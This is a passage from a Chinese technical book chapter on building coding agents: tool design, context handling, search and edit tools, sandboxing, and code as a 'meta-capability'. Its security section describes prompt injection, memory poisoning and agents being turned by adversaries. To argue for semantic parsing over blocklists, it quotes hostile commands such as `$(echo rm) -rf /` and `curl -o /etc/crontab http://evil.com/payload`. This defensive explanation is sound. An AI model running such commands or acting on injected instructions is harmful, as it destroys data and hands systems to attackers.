> **技术方案**：在流式响应上取三个断点——思考中途、正文中途、工具调用参数中途——切断连接。三种恢复方式：丢弃半截整轮重发；把半截内容作为末尾的 assistant 消息要求模型接着写（有的厂商原生支持，有的要求显式标注这是一条待续写的消息，没有这条接口的则退回下一种）；追加一条元指令说明从断点继续。半截的工具调用无法以原生结构回传，需先转成文字再让模型补完，拼接后重新解析校验。若半截输出里已有工具因流式提前执行，续写前按调用指纹去重，避免重复副作用。
>
> **验收标准**：三类断点各重复若干次，报告每种方式的恢复成功率、相对整轮重发节省的输出 token、补完后参数的合法率与语义正确率（拼接处容易多出空白或重复字符，合法不等于正确），以及重复副作用次数。同时记录哪些断点在某些厂商上无法复现，以及降级路径是否可用。

**终止：每条恢复路径都要有上限。** 恢复机制本身也可能失效，因此每条恢复路径都必须有明确的熔断上限：上下文压缩连续失败若干次就放弃压缩，权限分类连续失败就回退到人工询问，输出接续最多尝试固定轮数。阈值从哪来？答案是生产数据而非拍脑袋。以 Claude Code 的压缩熔断为例，“连续 3 次”的阈值来自真实会话统计——曾有一个会话在这条恢复路径上连续失败三千余次，仅这类无效重试每天就在全球造成约 25 万次 API 调用的浪费；逾千个会话出现过 50 次以上的连续失败。3 次正是“绝大多数故障在此之前已恢复”与“继续重试基本无望”之间的经验拐点。

比单点熔断更隐蔽的是**死亡螺旋**：错误处理路径中的逻辑本身又调用 LLM，再次出错，引发连锁反应。一种真实发生过的连锁故障是：Agent 因上下文溢出而停止，触发“结束时自动提交代码”的停止钩子（Agent 结束时自动执行的清理逻辑），钩子调用 LLM 生成 commit message，再次发生上下文溢出，又一次触发钩子。防护靠两条：在错误路径上禁用一切会再次调用模型的副作用逻辑（宁可丢掉一次辅助功能，如自动记忆提取），以及用递归深度计数器检测并打断残余的连锁。最后，在所有自动化机制之上还需要全局的终止与升级条件：最大迭代轮数、会话预算上限，以及连续失败超过阈值时升级到人工干预。

### Coding Agent 的实现技巧

上面的工作流程是理想状态。要让它在实践中真正跑起来，还需要几个具体的实现技巧——在保证思考质量的前提下，把响应速度提上去、把上下文消耗降下来。它们是第二章、第四章讨论的通用 Agent 技术在编程领域的具体应用。

**并行工具调用、流式执行与级联中止。**

传统 Agent 实现往往采用串行模式：生成一个工具调用，执行完，拿到结果，再决定下一步。这种严格的排队等待浪费了大量时间。

现代 Coding Agent 应充分利用流式响应：第二章在讨论模型输出顺序时介绍了这一机制——第一个工具调用的参数一经完整生成并通过校验，即可立即开始执行，无需等待模型生成后续的工具调用。例如，模型在一次推理中要连续输出搜索代码、查配置文件、读日志三个工具调用，第一个调用的参数刚一完整通过校验就能立即启动，与后两个调用的生成过程重叠进行；彼此独立的调用之间还可并行执行而非排队等待。这种重叠执行显著降低了端到端延迟，使 Agent 的响应更加敏捷。

并行执行的另一面是故障处理。每个工具定义应声明自己是否支持并发执行（默认为否，失败安全）；当某个调用失败时，通过级联中止机制终止同一批并行启动且依赖该结果的其他调用，但不波及独立的调用和父级操作——这正是 Harness 工程一节中“故障边界控制”原则的具体实现。

**上下文的精细化管理。**

Coding Agent 面临的根本挑战是代码库通常很大，但模型上下文窗口有限。即使先进模型号称支持百万级 token，把整个代码库一股脑塞进上下文既不经济也没必要。智能的上下文管理需在多个层面展开。

在文件读取层面，Agent 不应总是读取文件全部内容。对大型文件，工具应支持按行号范围读取特定片段，比如只读第 100 到 150 行，而不是把几千行的文件全部加载。更重要的是，**返回内容时附加行号标注，每行代码都以实际行号作为前缀**。这个看似简单的设计带来巨大价值：模型可精确引用“在 `src/main.py` 的第 42 行”，减少歧义并使后续编辑操作更可靠。

在命令执行层面，终端输出的处理同样需要谨慎。编译或测试可能产生数千行输出，如果全部注入上下文会迅速耗尽预算。第四章介绍的长输出截断与持久化机制在这里广泛应用：保留输出的前若干行（通常包含错误上下文）和后若干行（通常包含错误总结），中间以一行提示替代，并说明完整输出已保存到临时文件供按需查看。

**环境信息的动态注入。**

这是第二章介绍的 Agent 状态栏技术在 Coding Agent 中的集中体现。与通用 Agent 不同，Coding Agent 高度依赖执行环境的状态。每次推理前应在上下文末尾以 Agent 状态栏形式注入以下关键环境信息：

- **当前工作目录**：确保路径引用不会出错
- **git 分支**：知道自己在主分支还是特性分支上工作
- **最近提交记录**：了解项目的演化脉络
- **未暂存和已暂存的变更概览**：清楚已经做了哪些修改

这些信息不应硬编码在静态系统提示词中——那样会破坏 KV Cache 效率——而应作为动态的、追加式的 Agent 状态栏实时生成并注入。通过这种方式，Agent 获得了“环境感知”能力，每个决策都基于对当前状态的准确理解，而非过时的假设。

**命令执行环境的状态持久化。**

在与代码交互时，许多操作依赖环境状态：切换目录、激活虚拟环境、设置环境变量、启动后台服务。如果每次命令都在全新 shell 中执行，这些状态都会丢失（例如 Agent 刚用 `cd` 切到项目目录，下一条命令又回到了根目录，不得不反复做同样的目录切换）。更糟糕的是，某些操作（如激活 Python 虚拟环境）的效果只在当前 shell 会话中有效，无法跨会话传递。

因此应维护一个持久化的终端会话，在 Agent 启动时创建并在整个交互过程中保持活跃。每次命令都在这个共享终端中执行，保留工作目录、环境变量和会话状态。这种设计更符合人类开发者的工作习惯——我们通常就是在一个长期运行的终端窗口中工作。当然，Agent 也应保留启动隔离终端的能力以支持并行任务，但持久化会话应是默认模式。

**即时的语法反馈机制。**

这再次体现了 Agent 状态栏技术的价值。Agent 修改代码后，不应等到用户明确要求测试时才检查语法。更高效的做法是：文件写入操作一完成，工具层就自动运行相应的 linter 或语法检查器，将检查结果作为工具返回值的一部分呈现给 Agent。如果检测到语法错误，Agent 在下一轮推理中立即看到详细错误信息——就像程序员在 IDE 中打错一个括号，编辑器立刻画红线提醒一样。这种即时反馈机制显著降低了错误修复成本，因为 Agent 可以在错误引入的那一刻就进行修正，而不需要等到运行测试时才发现问题。

这五个实现技巧——并行与流式、上下文管理、环境感知、状态持久化、即时反馈——共同构成了高效 Coding Agent 的技术基础。它们不是孤立的优化点，而是相互配合的设计决策，指向同一个目标：让 Agent 能够像经验丰富的开发者那样流畅地工作。

### Coding Agent 中的搜索工具

在庞大的代码库中定位相关代码是 Coding Agent 工作的起点。图5-3 对比了几类互补搜索工具，说明成熟 Coding Agent 应如何根据任务性质选择检索方式。



**正则表达式内容匹配**（grep/ripgrep）：最传统的搜索方式，逐行扫描文件内容进行模式匹配。当 Agent 知道要查找的具体文本（函数名、变量名、错误消息）时，能快速准确地定位所有出现位置。正则表达式（用特殊符号描述文本模式的语法，如 `def handle.*` 匹配所有以 `handle` 开头的函数定义）的强大表达能力可以捕捉复杂模式，不仅可以搜索字面文本，还可以搜索符合特定结构的代码片段。在实际使用中还应支持文件类型过滤（只搜索 Python 文件）和路径模式过滤（排除测试目录）以减少噪音。其根本局限在于只能找到字面上匹配的内容，无法理解语义——搜索 “用户认证” 时，无法找到虽然没有 “认证” 二字但确实处理登录逻辑的函数。

**文件名模式匹配**（glob）：不看文件内容，只在文件系统的路径结构中查找符合模式的文件。如 `**/*.test.ts` 递归找到所有 TypeScript 测试文件，`src/components/**/Button.tsx` 在 components 下任意深度查找 Button.tsx。速度比内容搜索快得多（不需要打开和读取文件），是 Agent 探索项目结构的第一步——通过快速扫描整个文件系统建立项目的组织框架。

**语义代码搜索**：与前两种精确匹配方法不同，试图理解查询和代码的“意义”。需解决两个关键问题：

- **结构感知的分块**：代码有严格的语法结构，应按函数、类、方法等完整语义单元切分，而非按固定字符数盲目切割。
- **混合检索**（第三章详细介绍了这套技术栈）：向量嵌入（稠密嵌入）擅长找到语义相似但用词不同的代码（比如搜索“验证用户身份”能找到名为 `check_credentials` 的函数），关键词匹配擅长精确匹配函数名和变量名。两者并行执行后通过重排序模型（reranker，用交叉编码器对候选结果做精细的相关性排序）合并排序，互补覆盖。

语义搜索特别适合探索性任务，如在不熟悉的代码库中寻找“与数据库交互”或“处理用户输入验证”相关的代码。

不过，是否值得为语义搜索建立嵌入索引，业界存在明显的路线之争。以 Claude Code 为代表的终端型 Agent 刻意**不建嵌入索引**，纯靠 agentic 的 grep + glob 现场检索——这样既不必维护随代码演化而不断陈旧的索引，也省掉了一整套索引基础设施。Cursor 这类 IDE 型工具早期则走相反路线：愿意为**跨文件的语义召回**付出建索引的成本，靠嵌入索引在大型代码库中快速找到语义相关但用词不同的片段。目前 Cursor 等 IDE 也改用 grep + glob 现场检索了。

**符号级定义与引用查找**：类似 IDE 的 “跳转到定义” “查找所有引用”能力，能区分同名符号的定义和调用——例如它知道 `authenticate` 在第 42 行是函数定义、在第 189 行是调用，而文本搜索只能找到所有包含该字符串的行。目前主流 coding agent 并未采用这一方法。

这四种搜索方式构成互补的工具箱，实践中往往组合使用：先用语义搜索找到相关模块，再用正则匹配精确定位具体代码行，最后通过符号搜索追踪调用链——“从粗到细、从语义到语法”的渐进式策略。

### Coding Agent 中的文件编辑工具

文件编辑的难点不在于操作本身，而在于如何让 LLM 以高效又可靠的方式告诉系统 “改哪里、怎么改”。图5-4 对比了五种文件编辑方案，展示人类语言表达与机器精确执行之间的根本张力。



**差异描述 + Apply Model**：模型不是直接指定如何编辑文件，而是生成一份变更描述——可以是类似 git diff（即 `git diff` 命令输出的那种“删了哪几行、加了哪几行”的格式）的差异文本，也可以是带省略标记的代码骨架（用“此处保持不变”之类的注释跳过未修改部分）。这份描述随后交给专门的“应用模型”（Apply Model）——通常是另一个更小、更快的 LLM——负责与原文件合并、产出完整的新文件。这种职责分离让主模型专注高层代码逻辑、应用模型专注底层文本操作。朴素实现的脆弱性在于合并环节：变更描述与文件实际代码有微小出入时需判断是否同一位置，存在多个相似代码片段时可能合并到错误的地方。Cursor 是这条路线的代表，但近期由于基础模型能力的提升，也不再使用这条路线了。

**旧字符串到新字符串**（Old String → New String）：Claude Code、Codex 和今天 Cursor 采用的方案。模型提供 old string（要被替换的原文）和 new string（替换后的新文本），框架执行简单的字符串查找替换。优势是可预测性和透明性——old string 在文件中存在且唯一则成功，否则失败，不存在模棱两可。代价是删除大段代码时需完整输出所有原始内容，一个字符的偏差就会匹配失败；同一代码出现多次时需提供更长的上下文来消除歧义。

**行号定位**（Old Line Numbers → New String）：模型指定 “删除第 X 到 Y 行，插入新内容”。只要读文件工具提供了行号信息，模型就可以精确地看到欲删除内容的行号。行号精确无歧义，大段删除只需首尾行号两个数字。但问题是，每次编辑后后续行号都会变化，模型一次思考可能会输出多处编辑，此时需要像 diff 一样，让模型在多次编辑中都使用初始行号来定位，以免出现混淆。

**类 Vim 编辑命令**：借鉴 Vim 编辑器的命令体系，支持复制、剪切、粘贴等丰富操作。对重组代码（将函数从一处移动到另一处）非常高效。但命令语法的学习负担较大，最强的模型能较好使用，较小的模型错误率则会明显上升。这种方法对模型一次思考输出多个编辑命令并不友好，因为 Vim 每次编辑后文件内容和行号都会发生改变，而模型很难提前计算修改后的行号。更深层的思考是，Vim 等代码编辑器是为人类设计的，**人类需要不断看到当前的状态，并规划下一步的简单操作**（例如，写一行代码，或者删除几行代码）。但今天**模型的工作模式是经过较长时间的思考，再批量进行较为复杂的操作**（例如，写几百行代码）。

**字符串首尾匹配**（Old String Start + End → New String）：可以看作旧字符串替换方案的改进。模型不需要输出完整的 old string，只需提供要删除内容的开头几行和结尾几行，中间部分可省略。框架通过匹配这个开头和结尾来定位替换区域，只要这对 “首尾” 组合在文件中唯一就能准确定位。这种方案综合了文本替换的可靠性和行号方案的效率——处理大段代码删除时无需输出数百行原始代码，只需展示边界即可。同时因为仍然基于内容匹配而非抽象行号，模型犯错的风险相对较低。

### Coding Agent 的安全

本节把 Coding Agent 的安全防线收拢为一条完整的叙事线：先勾勒**威胁模型**——哪些风险最致命；再讨论**隔离兜底**——沙盒的网络出口、文件系统与资源限额；然后是**执行期防御**——命令的语义解析，以及让安全检查“隐形”的推测性执行；最后落到**信任与忠诚**——多方委托下 Agent 为谁效忠，以及动态生成软件为何需要把信任边界下移到数据层。其中威胁模型、忠诚度与数据层信任边界的讨论对所有 Agent 通用，沙盒与命令解析则是 Coding Agent 特有的补充内容。

Coding Agent 拥有读写文件、执行命令、访问网络的权限，这意味着一旦被注入恶意指令就可能造成不可逆的损失。Simon Willison 将这种风险概括为著名的 “致命三要素”：

1. **访问私有数据**——Agent 能读取用户文件和密码管理器
2. **暴露于不受信任内容**——处理的邮件和网页可能包含恶意载荷
3. **具备外部通信能力**——能发送邮件和执行命令

攻击路径由此闭合：恶意指令藏在不受信任的内容中进入 Agent，驱使它读取私有数据，再经对外通道传出。三要素齐备本身就已足够危险，在此基础上，笔者补充第四个维度——**持久记忆**。它不是并列的第四个必要条件，而是攻击的放大器：攻击者可将看似无害的偏见或恶意指令写入 Agent 的长期记忆，跨会话潜伏，在合适的时机再触发，把一次性攻击升级为长期威胁。

这四点可以概括为四类边界：数据边界、输入信任边界、输出影响边界、跨会话边界。OpenClaw 这样的全权限本地 Agent 恰恰四者兼备，安全防护因此成为此类 Agent 必须正视的核心挑战。

这也解释了为什么闭源的商业 Agent，如 Claude Cowork（Anthropic 面向知识工作的通用 Agent，复用 Claude Code 的架构，能读写本地文件、跨多个办公应用完成复杂任务），选择了保守的权限策略。面对提示注入威胁，单靠输入过滤基本挡不住。重点不是识别所有攻击，而是让 Agent 即使被注入，也没有机会把危险动作真正执行出去。这正是第一章三层护栏的用武之地。相比其他 Agent，Coding Agent 特别需要注意：

- **命令语义解析**——Shell 命令的组合爆炸使关键字黑名单形同虚设，必须在语义层理解命令的真实效果（本节后文将展开）；
- **沙盒隔离与网络出口控制**——代码执行是 Coding Agent 独有的攻击面，隔离级别与出口策略的工程选型见本节后文；
- **持久记忆的跨会话防线**——这是本章在致命三要素之外强调的扩展项：写入长期记忆的内容需经过与外部内容同等的信任审查，避免恶意指令潜伏在 `MEMORY.md` 中长期生效。

这三项补充措施分别落在验证、执行和数据三个层面，与前两章的防御体系互为补充。这些策略不能完全消除风险，但能缩小 Agent 的攻击面。

**隔离兜底：代码执行沙盒的工程选型。**

- **网络出口控制**。这是最容易被忽视、却最关键的一项：默认断网，按需通过白名单代理放行有限目的地（包管理源、文档站点、任务明确需要的 API）。回看致命三要素的第 3 条——“具备外部通信能力”——网络出口控制正是它的执行面防御：即使提示注入成功、恶意代码在沙盒内读到了敏感数据，没有出口就传不出去。
- **文件系统隔离范围**。源码目录以只读方式挂载（Agent 通过编辑工具修改代码，生成的补丁经审查后落盘，或将副本挂入可写工作区），单独的可写工作区目录承载生成物和中间文件；凭证类文件（`~/.ssh`、密钥、token）根本不挂载进沙盒。
- **资源限额与超时**。CPU、内存、磁盘配额加超时，防御死循环、fork 炸弹（通过疯狂自我复制进程拖垮系统）和无限写盘。一个实践细节：超时和超限应向 Agent 返回结构化错误（“执行超过 120 秒被终止，最后输出如下……”）而非静默杀死进程，让 Agent 有机会在下一轮修正策略。

**安全：语义解析而非关键字黑名单。**

第一章提到验证层应采用 “基于理解而非匹配” 的安全机制，Shell 命令安全校验是这一原则最具挑战性的应用场景。简单的关键字黑名单无法应对 Shell 的组合爆炸——命令可以通过管道、子 shell、变量展开等方式绕过任何静态规则（例如 `rm` 被禁了，攻击者可以用 `$(echo rm) -rf /` 绕过）。生产级 Harness 采用语义解析：理解每个命令的参数类型和消费规则（哪些标志位会消费下一个参数），识别出“某个看似无害的标志位实际上会消费下一个参数从而隐藏危险载荷”这类攻击模式。例如，`find / -name '*.log' -exec rm {} \;` 通过合法的 `find` 命令参数嵌入了 `rm` 删除操作；又如 `curl -o /etc/crontab http://evil.com/payload`，看似下载文件实则覆盖系统定时任务。语义解析能识别出这些嵌套的危险操作，而简单的命令黑名单无法捕获。这种基于理解而非匹配的安全机制，是 Harness 中 “约束” 功能的实现。

**Agent 为谁效忠：多方委托下的忠诚度。**

前面的安全机制防的是“命令被做坏”，还有一类更微妙的安全问题——**委托方忠诚**（principal loyalty）：**Agent 到底站在谁那一边**。模型在训练中形成了一条朴素的默认原则——“谁在跟我说话，我就尽力帮谁”；但真实的 Agent 常处在**多方委托**的处境里：它代表主人行事，打交道的却是利益相反的第三方——一个替你砍价的 Agent，对面坐着的不是“需要被帮助的用户”，而是**交涉对手**。此时“谁说话帮谁”就是危险的默认设置：对手只要开口，就可能把 Agent 策反。

把前沿模型放进这种处境实测，会看到一条清晰的**忠诚度光谱**，而且两端都会翻车[^ch5-1]：一端是**太老实**，把主人的私密信息（比如“我方底价是 12000”）直接抖给对手，被反复施压几轮就缴械让步；另一端是**太多疑**，连主人正当的请求也一概拒绝，反而没法完成任务。真正难的是，这两种失败是一根跷跷板——把泄密堵死往往就滑向过度拒绝，很难两全。

这对 Coding Agent 尤其贴切：仓库里读到的不可信内容、某个工具返回的输出、第三方 MCP 服务器发来的指令，都是试图让 Agent 倒戈的“对手”——**提示注入本质上就是一次策反**（第二、四章）。因此 Harness 层要明确限定“忠诚对象”：主人的指令优先级最高，一切来自外部交互方的内容都默认降格为“可参考、但不具备指令效力”的数据。落到系统提示上，一套行之有效的**忠诚度守则**是：保护主人的私密信息，甚至不泄露这些信息是否存在；拒绝时不逐条念出拒绝清单（那本身就在泄露）；私下的底线不等于对外的立场；只执行主人明确、具体的指令；顶住重复施压。本质上，这是在用 Harness 为模型补上一条它默认没有的立场：**对主人绝对忠诚，对外部交互方保持审慎**。

[^ch5-1]: 这条忠诚度光谱及守则的完整评测见 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

## 代码：通用 Agent 的元能力

前一部分展示了如何构建一个可靠的 Coding Agent——从架构设计到工具实现再到 Harness 工程。但代码生成的价值远不止于写程序。

> **什么是“元能力”？** 普通能力是 Agent 能做某件具体的事——回答问题、调用某个 API、生成一段文字。**元能力**（meta-capability）是一种“能创造其他能力”的能力：Agent 用它当场写出新工具、新约束、新表达形式来完成任务，而不必事先把所有能力都预制好。代码生成正是这样的元能力——它精确、可执行、可组合，因此既能产出新工具（脚本、API 调用序列），也能产出新约束（断言、校验规则），还能产出新的表达形态（HTML 表单、PPT、视频帧）。

正因如此，代码在 Agent 体系中扮演的角色远超“写程序”。接下来六节分别展示这种元能力在编程之外的六个应用方向。它们并非平行罗列，而是按“元能力作用对象”由内向外组织：

1. **思维本身**——用代码替代易错的自然语言推理（思考工具）；
2. **业务规则**——把模糊的政策编码为可执行约束（业务规则约束）；
3. **内容呈现**——生成 PPT、视频与可视化产物（多媒体生成）；
4. **系统接口**——桥接异构 API，自动适应数据格式演化（系统适配器）；
5. **用户界面**——动态构造表单与交互界面（生成式 UI）；
6. **Agent 自身**——用代码创造或修复新 Agent，形成自举。

### 代码作为思考工具

LLM 在自然语言理解和生成上表现惊人，但在精确计算、符号操作或严格逻辑推导上却有根本短板。原因在于：模型思考本质上是概率性的、近似的，而数学和逻辑问题要求确定性的、精确的答案。用一个具体对比说明：

```text
问题："一个班有 40 名学生，其中 60% 选修了数学，45% 选修了物理，25% 两门都选了。
      只选了物理没选数学的有多少人？"

纯自然语言推理（容易出错）：          代码推理（精确可验证）：
"60%选数学 = 24人，                   math = int(40 * 0.60)    # 24
 45%选物理 = 18人，                   phys = int(40 * 0.45)    # 18
 25%都选 = 10人，                     both = int(40 * 0.25)    # 10
 只选物理 = 24 - 10 = 14人"           only_phys = phys - both  # 8
→ 误从数学人数中减，答案错误          → print(only_phys)  # 8 ✓
```

让 LLM 负责理解问题并写出代码，让代码解释器负责精确计算——这种分工让两者各司其职。

Mathematica 创始人 Stephen Wolfram 对此提出了深刻洞察。在 LLM 出现之前，已经存在一类能做精确数学计算的系统——它们使用**符号计算**（Symbolic Computation）的方式工作，即用数学符号而非近似数值来处理表达式。例如，普通计算器会把 $\sqrt{2}$ 算成 1.414，但符号计算系统会保持 $\sqrt{2}$ 的精确形式，只在需要时才转为小数。Wolfram 创建的 Wolfram Alpha 就是这样一个系统，用户输入数学问题，它返回精确答案。然而它的自然语言理解相当脆弱、覆盖面也窄——它依赖一套内置的语法解析，能识别的问法有限，问法稍作改变就可能解析失败，更无法处理开放域的多步推理。LLM 恰好弥补了这个短板——它擅长理解各种自然语言表达，但不擅长精确计算。新的协同模式是：让 LLM 负责理解用户的自然语言问题，识别其中的数学或逻辑结构，并转化为形式化语言（如 Mathematica 语言或 Python 的 SymPy 库）；然后交给专门的符号计算引擎或约束求解器执行，获得精确结果。

> **实验 5-3 ★★：使用代码生成工具提升数学解题能力**
>
> **实验目标**：验证 Agent 通过 Code Interpreter 辅助数学思考的准确性提升。
>
> **技术方案**：为 Agent 配备安装了 sympy、numpy、scipy 等数学库的 Python 沙盒。Agent 遇到数学问题时将其形式化为 Python 代码：sympy 进行符号计算（微积分、方程求解），scipy 进行数值优化，numpy 进行矩阵运算。生成的代码在沙盒中执行，并返回精确结果。
>
> **验收标准**：使用 AIME 风格题目（对标美国数学邀请赛）评测。对比纯思维链思考和代码辅助思考的准确率，要求代码辅助模式显著更高。检查代码是否正确使用数学库，求解过程是否逻辑清晰。
>

> **实验 5-4 ★★：使用代码生成工具提升逻辑思考能力**
>
> **实验目标**：评估 Agent 通过约束求解代码辅助逻辑思考的能力。
>
> **技术方案**：为 Agent 配备包含 python-constraint 库的 Code Interpreter。Agent 将逻辑谜题（如骑士与无赖问题）转化为形式化约束定义：识别所有变量（每个岛民身份）、约束条件（“骑士说真话” 等推导），定义约束并调用求解器搜索满足所有约束的解。
>
> **验收标准**：使用 [K&K Puzzle 数据集](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) 评测，代码辅助模式求解准确率达 90% 以上，显著高于纯思考模式。
>

这个实验还揭示了一个更普遍的规律：模型与脚手架（harness）之间是此消彼长的关系。模型足够强时，脚手架可以更薄——模型自己就能把逻辑想对，代码求解器带来的增益随之收窄；模型不够强时，就得在脚手架里做更多事情——把关键的逻辑推理交给代码和约束求解器来保证正确性。正因如此，本实验刻意选用能力较弱的模型来放大这一对照：在较弱的模型上，纯思考模式会频繁算错，代码辅助能把准确率显著拉高；而换成足够强的思考模型，纯思考往往就能解出全部谜题，代码辅助的增益便收敛到接近零。所以脚手架该做多厚，取决于你手上模型的能力边界——这也是评估一项 Agent 技术时容易被忽视的前提：同一套脚手架，配上不同能力的模型，得到的结论可能截然不同。

### 代码作为业务规则的约束

这一节是对前面 Harness 工程的直接回应。Harness 的核心原则之一是“约束：编码化而非文档化”——将规则从自然语言文档转化为可执行的代码，使其成为系统行为的强制约束而非建议性指南。代码生成使 Agent 能够自主完成这个转化过程。

业务规则、办事流程、决策逻辑如果仅用自然语言描述，往往充满歧义。什么是“合理的退款请求”？什么算“紧急情况”？这些概念的边界在自然语言中很难界定——“购买后 7 天内可退款”看似清楚，但“7 天”是自然日还是工作日？“购买”是下单时间还是发货时间？相比之下，代码提供了无歧义、可执行的知识表达方式——要么成功运行，要么抛出错误，不存在模棱两可。

**精确表达复杂业务规则。**

**自然语言规则 vs 代码化规则：互补而非替代**

将规则写在系统提示词中的优势：模型可基于规则向用户**解释政策**；可根据规则**寻找变通方案**（如 “改签而非取消”）；可在调用工具前初步判断可行性。

将规则编码成校验工具的优势：代码逻辑具有**精确性和无歧义性**——不会出现 “理解偏差”；代码执行具有**确定性**——相同输入必产生相同输出；特别适合**复杂规则组合**——多条件布尔组合、时间计算、跨数据源验证。

实践中应结合使用：系统提示词包含自然语言规则供理解和沟通，关键决策点配备代码化校验工具作为“守门员”确保合规性。

代码化规则的真正价值不在于优化 token 效率，而在于**防止不可逆的错误操作**——取消订单、转出资金、删除数据，这些操作一旦执行就无法撤销。代码化校验在操作前设置最后一道防线，这种安全保障的价值远超其实现成本。

**合并校验与执行：checklist 引导思考，真值校验守门**

与其设计独立校验工具，不如让执行工具内部先校验。以 τ-bench（tau-bench，一个模拟航空、电商客服场景，专门评测 Agent 工具调用与政策遵守能力的基准测试）中的航空公司取消政策为例：

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # 可选：模型自查用，服务端以数据库真值复核
    expected_has_insurance: bool = None  # 可选：模型自查用，同上
) -> dict:
    """
    取消航班预订。

    取消政策（服务端根据数据库真值强制执行）：
    - 规则 1: 已使用任何航段的订单不可取消
    - 规则 2: 预订后 24 小时内可无条件取消
    - 规则 3: 航空公司取消的航班总可取消
    - 规则 4: 商务舱总可取消
    - 规则 5: 基础经济舱和经济舱需购买旅行保险才可取消

    调用前请先查询订单详情，逐条核对上述政策；expected_* 参数用于
    陈述你的判断依据，仅供服务端比对与审计，不影响政策裁决。
    """
    # 所有政策事实一律从数据库读取，绝不采信模型自报的值
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # 服务端时钟，而非模型提供

    # 模型自报值与真值不一致时记录告警，用于发现模型的错误认知或潜在注入
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

这个设计的价值要分两层来看。

**第一层：参数作为思考的 checklist**。工具描述中列出了完整的取消政策，并要求模型“调用前先查询订单详情、逐条核对”；可选的 `expected_*` 参数进一步促使模型把自己的判断依据显式写出来。为了填好这些参数，模型必须先调用查询工具获取订单详情，逐一确认每个条件——填写参数的过程本质上是一个**强制性 checklist**。当模型查到舱位是经济舱且未购保险时，很可能在准备调用的过程中就注意到规则 5，从而**根本不会发起调用**，而是直接告诉用户“经济舱未购保险无法取消，可考虑购买保险后再取消或改签”。这一层的价值在于引导思考、减少无效调用；但它不承担安全责任——`expected_*` 参数只是模型的自我陈述，服务端从不把它当作事实。

**第二层：服务端真值校验才是守门员**。注意代码中的关键设计：舱位等级、保险状态、预订时间、航段使用情况、航班状态，全部由服务端查询数据库获得；当前时间来自服务端时钟。**没有任何一条政策事实来自模型自报的参数**。这不是多余的谨慎：模型可能产生幻觉，也可能被提示注入操纵——正如前文“致命三要素”所分析的，同一上下文中的 Agent 难以自证清白。如果把 `cabin_class`、`has_insurance` 乃至 `current_time` 设计成由模型填写的参数，模型只要报错（或被诱导报错）一个值，“守门员”就形同虚设。最后一道防线必须建立在模型无法伪造的数据之上——这与前文“关键操作需要独立验证”的立场一脉相承：独立性不仅指独立的模型，更指独立的数据来源。

三重保障由此完整：(1) 系统提示词的自然语言规则帮助理解和解释；(2) 工具描述与参数设计作为 checklist，引导模型在调用前显式核对条件；(3) 服务端基于数据库真值的代码化校验作为最后守门员。前两重减少错误的发生，第三重确保错误不会变成不可逆的损失。

> **实验 5-5 ★★：小模型通过代码化知识提升执行规则的准确性**
>
> **实验目标**：验证小参数量模型（Qwen3-4B）通过代码化业务规则显著提升复杂政策执行的准确性和一致性。
>
> **技术方案**：基于 τ-bench 航空客服场景设计对照实验。**控制组**：纯自然语言规则，依赖模型自身思考。**实验组**：三重保障——系统提示词保留自然语言规则；工具描述列出完整政策，并以可选的 `expected_*` 参数引导模型调用前逐条核对（checklist）；工具内部基于模拟数据库真值的代码化校验（政策事实一律查库获取、时间取服务端时钟，不采信模型自报参数）。评测指标：任务成功率、政策违规次数、无效工具调用次数、用户体验。
>
> **预期结果**：实验组显著优于控制组。更重要的是，观察到模型在准备参数时就自主识别违规操作，直接向用户提议替代方案，验证“参数作为 checklist”的有效性；同时统计 `expected_*` 自报值与数据库真值不一致的比例，验证“服务端真值校验”拦截错误认知的必要性。
>

### 代码驱动的多媒体生成

许多复杂文档的创作本质上是结构化数据的组织和呈现。无论是演示文稿、技术报告还是交互式应用，底层都由代码定义——HTML 描述结构，CSS 控制样式，JavaScript 实现交互。传统的文档创作依赖 GUI 界面的所见即所得编辑，但这种方式对 Agent 来说既不直观也不高效，因为 GUI 操作需要视觉理解和精确的坐标定位。通过代码生成，Agent 绕开了视觉定位难题，获得对文档的精确控制能力——每个元素的位置、样式、内容都是明确定义的，可以用程序化的方式修改和优化。

**PPT 生成 Agent。**

PPT 创作往往耗时费力。一个典型的学术报告 PPT 可能包含数十页幻灯片，每页都需精心设计布局、提炼要点、选配图表。如果把 PPT 创作转化为代码生成问题，就能极大降低复杂度。现代 PPT 框架（如 Slidev）采用优雅的设计哲学：用 Markdown 和 HTML 定义演示内容。创建一页幻灯片只需编写简洁的标记语言，框架会自动处理渲染、布局和动画。这种方式对掌握了代码生成能力的 Agent 极其友好。




仅能生成代码还不够。**Agent 编写完代码后并不知道实际渲染效果**：内容是否太挤、文字是否溢出、图片尺寸是否合适，这些只有真正渲染出来才能发现。因此需要引入**提议者-审核者**（Proposer-Reviewer）机制（如图5-5所示），将代码编写和质量评审解耦为两个独立 Agent：

- **Proposer Agent** 负责生成 Slidev 代码，理解内容逻辑结构并将其分解为合理的页面
